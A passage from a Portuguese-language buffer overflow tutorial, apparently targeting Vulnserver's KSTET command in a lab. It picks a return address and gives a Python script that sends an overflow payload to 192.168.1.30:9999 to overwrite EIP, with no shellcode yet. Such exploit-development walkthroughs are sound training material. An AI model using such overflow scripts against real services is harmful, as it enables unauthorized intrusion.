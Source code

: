 Encontramos nossos 9 bons endereços de retorno, podemos utilizar qualquer um, no meu caso utilizarei o 625011d3.

Vamos inserir o endereço de retorno no lugar de nossos “B” e monitorar o comportamento inserindo um breakpoint neste endereço.

xplkstet.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# variaveis de payload
offset = 206

# payload
payload = b"KSTET "
payload += b"A"*70
payload += b"\xd3\x11\x50\x62"
payload += b"C" * (offset - 70 - 4)
# criando conexao
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)

# enviando payload
print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()

print("Payload enviado.")
```